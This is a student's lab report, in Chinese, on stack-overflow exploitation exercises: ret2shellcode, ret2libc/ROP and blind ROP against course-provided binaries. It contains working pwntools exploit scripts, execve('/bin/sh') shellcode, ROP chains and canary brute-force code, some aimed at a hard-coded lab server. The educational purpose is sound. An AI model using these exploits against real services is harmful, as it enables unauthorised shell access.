









## Report

​																																					王睿 3180103650

### 1. Ret2shellcode

#### 1.1 shellcode攻击过程及原理

​		ret2shellcode通过buffer overflow漏洞，将shellcode注入程序中，同时将函数的返回地址修改为shellcode的入口，从而使程序在完成输入后，返回到去执行危险的shellcode，从而达到攻击的目的。

​		刚开始看到题目的时候，我的第一反应以为是将shellcode作为全局变量放到程序中，但后来才发现原来还是通过overflow将code注入。但ASLR是打开的，我们并不知道hear函数内的局部变量str在栈中的具体位置。我思考了很久，后来发现了在main中出现了id的地址，我才意识到这个信息是很关键的，我们可以通过id的位置，找到str的位置。因此，我将shellcode的入口地址放在return address后面，然后将return address修改为`new_ret_addr = p64(int(id_addr,16) - 8).decode("iso-8859-1")`，因此会在hear函数结束后，返回到shellcode入口，栈中内容如下：



对应的exploit.py如下：

```python
from pwn import *
context.log_level = 'DEBUG'

flag = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05\x00\x00\x00\x00\x00"

conn = remote("47.99.80.189", 10011)

conn.recvuntil("ID:")
conn.sendline("3180103650")

conn.recvuntil("ID:")
conn.sendline("3180103650")

conn.recvuntil("0x")
id_addr = conn.recvuntil("\n", drop = True)

new_ret_addr = p64(int(id_addr,16) - 8).decode("iso-8859-1")

payload = "\x90"*(256+8) + new_ret_addr + flag


conn.recvuntil("me!")
conn.sendline(payload)

conn.interactive()
```


#### 1.2 shellcode分析

​		我从[shellstorm](http://shell-storm.org/shellcode/)中找了一份适合linux x86-64的执行system(/bin/sh)的shellcode，其对应的shell代码具体如下：

```assembly
    xor eax, eax
    mov rbx, 0xFF978CD091969DD1
    neg rbx
    push rbx
    push rsp
    pop rdi
    cdq
    push rdx
    push rdi
    push rsp
    pop rsi
    mov al, 0x3b
    syscall
```

​		首先，我们要清楚x86-64的system call的参数传递，在调用system call前，我们需要将系统调用编号保存到`%rax`，将参数依次存到`%rdi, %rsi, %rdx`中，然后再执行syscall指令即可。而我们要执行的syscall类型为 sys_execve，对应的参数：`%rax = 0x3b, %rdi = filename, %rsi = argv[], %rdx = envp[]`.

​	下面一步步分析使用的shellcode

- xor eax, eax：对%eax使用异或操作设置为零

- mov rbx, 0xFF978CD091969DD1
   neg rbx

  这两条指令将%rbx的内容设置为"/bin/sh"字符串

- push rbx：将'/bin/sh'字符串压入栈中，此时%rsp指向栈顶，即字符串开头位置
- push rsp：将'/bin/sh'字符串的地址保存到栈中
- pop rdi：将'/bin/sh'字符串的地址装入%rdi中
- cdq：将%rdx设置为零
- push rdx：将0x00压入栈，此时argv[1]=0
- push rdi：将'/bin/sh'字符串的地址保存到栈中，此时argv[0]='/bin/sh'的地址，至此，argv[]构造完毕
- push rsp：将字符串地址的地址压入栈中，为下一步将数组argv地址传递给rsi
- pop rsi：将%rsi设置为argv[]的地址
- mov al, 0x3b：设置al为`0x3b`，指定系统调用类型为execve()
- syscall：调用execve()

#### 1.3 x86-64 shellcode与 i386 shellcode比较

​	以下是一份i386的执行execv('/bin/sh')的shellcode

```assembly
xor    %eax,%eax
push   %eax
push   $0x68732f2f
push   $0x6e69622f
mov    %ebx, %esp
push   %eax
push   %ebx
mov    %ecx, %esp
cdq
mov    %al, $0xb
int    $0x80
```

- 流程说明

  - Step1

    ​    首先将%eax清零，然后将0入栈，作为字符串 '/bin/sh' 结束的标志。然后分别将'//sh'与'/bin'压入栈中（'//'是为了凑满4个字节），然后将%esp的值给%ebp，即将字符串的地址赋值给%ebp。

  - Step2

    ​    接下来需要构造argv[]数组，方法同x86-64，先通过push %eax将0入栈，作为argv[1]；然后利用push %eax设置argv[0]为'/bin/sh'的地址，此时%esp指向argv数组首地址；然后将%esp赋值给%ecx，使得%ecx为argv数组的首地址

  - Step3

    ​    将edx设置为0，即环境变量为NULL，%eax设置为0x0b，系统调用编号为0x0b（execve()），然后调用syscall执行系统调用

- i386系统调用与x86-64系统调用比较分析

​	可以看到，i386的shellcode与x86-64的逻辑基本相同，唯一不同的是参数传递：i386将系统调用编号存到%eax，将参数依次存到%ebx, %ecx和%edx中（之后是%esi, %edi, %ebp），然后执行int 0x80；而x86-64中，需要将系统调用编号存到%rax，将参数依次存到%rdi, %rsi，%rdx中（之后是 %r10, %r8, %r9），然后调用syscall指令

#### 1.4 flag截图




### 2. Ret2libc/ROP

#### 2.1 解题过程

​	首先我们可以通过checksec查看可执行文件的属性，结果如下：


​	可以看到，该可执行文件启用了NX（不可执行栈），因此，我们无法通过直接的code injection来执行我们的shellcode，因此选择利用ret2libc攻击。

​	再看过02_ret2libc64.c源代码后，可以看到我们需要利用hear()函数中的read()的buffer overflow隐患，使得程序跳转到libc的system中，同时，还需要为其提供参数`'/bin/sh'`. 但因为ASLR的存在，我们并不知道libc中system的地址，因此，就需要利用libc中的`puts()`与`system()`的offset固定，来推导出system的地址。回顾课上所学知识，动态链接时，调用`puts()`函数会先访问puts的plt entry，其中保存着puts的got，而got内就是libc puts的真实地址。因此，我们可以通过puts( GOT[puts] )，来获得当前puts在libc中的真实地址，记为`leak`；而因为pwntools内默认的libc的起始地址为0，我们可以确定libc的基地址为：`leak - libc.symbols['puts']`，从而得到system的真实地址：`leak - libc.symbols['puts'] + libc.symbols['system']`.

​		综上所述，整个攻击过程分为两步，第一步通过`puts(GOT[puts])`来获得libc基地址；第二步执行system('/bin/sh')

- Step1

  ​	因为我们处于64位系统，参数传递通过寄存器，而当前只有一个参数，就需要用到`%rdi`寄存器，这就需要利用程序中的gadget，来将栈上的参数pop到rdi中，我使用了ROPgadget，可以看到在0x401373处就有这样一个适合的gadget

  

  ​	之后，我们就需要将puts_plt与puts_got压入栈中。获取puts_plt的值较为简单，可以通过gdb直接查看到；而获取puts_got我们可以选择使用`objdump -R`指令，如下，puts_got的值应为0x404018

  	有了这些值后，正常来说就应该可以直接构造payload了，但因为64bit下，glibc-2.27版本中的库函数使用了sse指令，要求计入函数时栈要16字节对齐，所以我们可以在一开始插入一个指向ret的gadget，使得sp对齐，然后就可以继续构造ROP payload了，如下:

  

  我让程序在输出完之后跳回到hear( )函数进行read，以便进行step2

- Step2

  ​    首先我们确定要放入rop chain的内容，首先应该是一个指向pop rdi的gadget，这个同上通过ROPgadget工具获得。然后是参数'/bin/sh'，最后是system函数的地址，这些值在有了libc的基地址之后都能较方便的获得

  ```python
  libc.address = puts - libc.symbols['puts']
  
  bin_sh = libc.search('/bin/sh').next()
  
  system = libc.symbols['system']
  ```

  后面就是构造payload并传递参数，如下：

  ```python
  rop_chain2 = [
      pop_rdi,
      bin_sh,
      system
  ]
  rop_chain2 = ''.join([ p64(i) for i in rop_chain2])
  
  payload2 = 'A'*(256+8) + rop_chain2
  
  p.sendline(payload2)
  p.interactive()
  ```

#### 2.2 工具与方法总结

- 利用ROPgadget工具获得某一可执行文件中可以利用的gadget：`ROPgadget --binary filename`

- 利用`objdump -R filename`查看GOT表

- 利用pwntool的elf工具，查看本地elf文件某一函数的PLT和GOT

  ```python
  elf = ELF('./02_ret2libc64')
  puts_got = elf.got['puts']
  puts_plt = elf.plt['puts']
  ```

- 利用pwntool的elf工具，查看某一elf文件中的函数的地址

  ```python
  symbol = elf.symbols['system']
  ```

- 利用pwntools，搜索某一字符串并返回第一次找到的地址

  ```python
  bin_sh = libc.search('/bin/sh').next()
  ```

#### 2.3 flag截图




### 3. BROP

#### 3.1 攻击流程

​		整个攻击流程大致分为3个环节：stack reading，Blind ROP以及build exp with binary，下面逐一分析：

##### 3.1.1 Stack Reading

- canary位置判断

​		首先需要通过不断逐字节溢出缓冲区，判断出canary的位置，若输出$k$字节数据时，子进程不崩溃；而输入$k+1$字节数据后，子进程崩溃，则说明canary的位置距离输入字符数组首地址 $k$ Bytes.  也就是说buffer的容量为$k$字节（可能考虑了内存对齐

​		大致的爆破代码如下：

```python
def get_canary_entry():
    for i in range(100):
        payload = 'A'
        payload += 'A'*i
        size = len(payload) - 1

        p.recvuntil("darker:")
        p.send(payload)
        p.recvline()
        output = p.recvline()

        if output[1] == '-':
            log.info("get_canary_entry: fail: %d" % size)
        elif output[1] == '+':
            log.info("get_canary_entry: success: %d" % size)
            return size
```

- canary具体值的判断

  ​		在获得了canary的地址后，就需要逐字节试探canary的具体值。我们从最低字节开始，从0x00至0xff去试探canary当前字节的值，匹配后进入下一个字节的匹配过程，重复此过程，直至canary的4个字节全部匹配完毕。

  ​		需要注意的是，canary的值是与进程相关的，即每次连接服务器需要输入的canary都不相同，因此，每次连接都需要重新匹配。

  ​		大致爆破代码如下：

  ```python
  def get_canary(buf_size):
      canary = [ 0x00, 0x00, 0x00, 0x00]
      payload = 'A' * buf_size
  
      for i in range(4):   # 4 bytes
          for j in range(256): # 256 possibilities
              payload = 'A' * buf_size 
              for k in range(i+1): # already conformed canary bytes
                  payload += p8(canary[k])
              
              p.recvuntil("darker:")
              p.send(payload)
              p.recvline()
              output = p.recvline()
              if output[1] == '+':
                  #log.info("get_canary: fail! byte index: %d, byte val: %#x" % (i, canary[i]) )
                  canary[i] += 1
              elif output[1] == '-':
                  log.info("get_canary: success! byte index: %d, byte val: %#x" % (i, canary[i]))
                  break
      
      return ''.join(p8(i) for i in canary)
  
  ```

- 返回地址的判断

  ​		一开始我想当然的认为这个函数的返回地址就应该在canary地址+4B处，后来发现我无论怎么设置这个地址的值，子进程都不会崩溃，后来通过测试才发现，原来这个函数的返回地址在canary地址+12B处！

  ​		测试的方法也很简单，每次溢出处4字节（设置为任意值0xdeadbeef），直到程序崩溃。第一次发生崩溃的地址即为返回地址的位置

##### 3.1.2 Blind ROP

​		在找到canary，函数return address位置后，我们就可以寻找gadget了。我当时解题的思路是：与在64位环境下进行BROP不同，在i386下，其实我们只需要找到stop gadget即可。因为32位环境的参数传递是通过栈而非寄存器，那这样的话我我们只需要找到stop gadget，然后利用bof把栈设计成这样，根据输出开始是否为0x7fELF来判断是否找到了write的plt，之后就可以直接输出bin代码了。


所以，这一阶段的任务就是寻找stop gadget与write的plt（事实上，stop gadget也并非必须，但手册上说强烈建议扫描0x80486a0-0x80489a0范围内的地址，会有很多奇怪的输出，因此还是很有必要去看一下到底会有什么输出）

- 寻找stop gadget

  ​		按照stop gadget的定义，是指程序跳转到该gadget后，连接不会中断，即子进程不会crash。所以我们设计如下payload，若最后接受的输出仍为子进程所触发，那么我们就找到了stop gadget

  ```python
  	payload  = 'A' * buf_size
      paylaod += canary
      payload += p64(0xdeadbeef)
      payload += p32(0xdeadbeef)
      payload += p32(addr)        # address of the gadgets
  ```

  本来还以为在找到了stop gadget后，我们还需要如我之前说的那样，重新扫描一边地址去找write@plt，结果在输出里直接给出了，省了不少事（怪不得**强烈建议**...

- 输出binary文件

  在获得了write函数plt后，我们就可以通过buffer overflow向其传递参数，输出0x8048000开始的0x1000字节的内容，具体函数如下：

  ```python
  def dump_memory(buf_size, canary, stop_addr, write_plt, start_addr, size):
      result = ""
      #print(result.encode('hex'))
      sleep(0.1)
      payload = 'A'*buf_size
      payload += canary
      payload += p64(0xdeadbeef)
      payload += p32(0xdead)
      payload += p32(write_plt)
      payload += p32(stop_addr)
      payload += p32(0x1)
      payload += p32(start_addr)
      payload += p32(size)
  
      p.recvuntil("darker:")
      p.send(payload)
      p.recv()
      data = p.recv(timeout=0.1)
  
      if data == "\n":
          data = '\x00'
      elif data[-1] == '\n':
          data = data[:-1]
  
      result += data
      return result
  ```

  栈的布局如下：

  

##### 3.1.3 Build Exp with binary

在获得了binary文件后，我们可以将其用Ghidra进行反编译，然后观察string



可以看到里面有很反常的'/bin/sh'与'/bin/ls'，我们可以去text段看看哪些函数使用了这些字符串，这些函数中很有可能有system()。我向这些函数传递了参数字符串'/bin/sh'，结果发现，使用了'/bin/sh'的很有可能是puts()，它导致了'/bin/sh'的输出；而使用了'/bin/ls'的就是system()，它是我们打开了一个shell

#### 3.2 搜集信息过程

在确定canary的地址与值的时候主要还是用log来进行判断。而到了搜索gedget时，我选择在匹配完canary后，进入python交互模式，设置context.log_level为'DEBUG'，然后将每一地址对应的输入与输出都打印到文件中，然后在本地根据输入输出进行判断，选择有用的地址，然后再单独设计payload去跑一遍，看看输出是否符合预期。

偶尔会遇到因为字符串接受不匹配卡住的情况，就可以将起始地址设置为当前地址+1，重新从下一个地址开始扫描，就能解决这个问题。

#### 3.3 flag截图




### 4. 感想

感觉这个实验收获很大，特别是最后的BROP，难度也比较适合，完成后很有成就感。经过整个实验后，对一些概念的理解更加清晰了，写exploit code也更加得心应手。最后，非常感谢助教的答疑解惑！

​				